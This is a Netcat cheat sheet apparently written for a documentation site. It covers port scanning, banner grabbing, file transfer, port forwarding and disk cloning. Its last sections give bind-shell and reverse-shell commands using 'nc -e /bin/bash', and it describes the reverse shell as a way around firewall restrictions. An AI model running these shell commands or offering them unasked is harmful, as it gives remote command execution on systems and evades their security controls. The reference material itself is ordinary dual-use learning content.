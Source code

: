 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-sync-alt
background: bg-blue-600
tags: 
    - ncat
    - nc
    - utility
    - network
    - traffic
categories:
    - Persistence
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting Started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
|--------|----------------------------|------------------------------------------|
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Netcat Examples
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

